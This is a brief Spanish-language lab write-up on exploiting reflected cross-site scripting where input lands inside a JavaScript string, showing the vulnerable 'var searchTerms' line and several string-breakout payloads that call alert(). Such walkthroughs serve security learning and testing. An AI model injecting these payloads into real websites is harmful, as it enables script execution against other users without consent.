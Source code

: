 # Reflected XSS into a JavaScript string with angle brackets HTML encoded

Ingresando la palabra `seven` y interceptando con burpsuite podemos ver :

![20240807090937.png](20240807090937.png)

Luego tenemos en la respuesta lo siguiente

![20240807090948.png](20240807090948.png)

Vemos un código en JavaScript que ejecuta cierta acción con la palabra que ingresamos

```c
console.log(encodeURIComponent('test?'));
// Expected output: "test%3F"
```

Entonces podemos ejecutar comandos en;

```c
var searchTerms='<xss>' 
```

Para ello tuve que probar varias cosas y en ellas funciona las siguiente:

```c
'; alert(1);//'
```

Si ingresamos el anterior quedaría de la siguiente manera:

```c
var searchTerms=''; alert(1);//'' 
```

```c
'*alert('xss')*'
'-alert('xss')-'
';alert('xss');//'
```

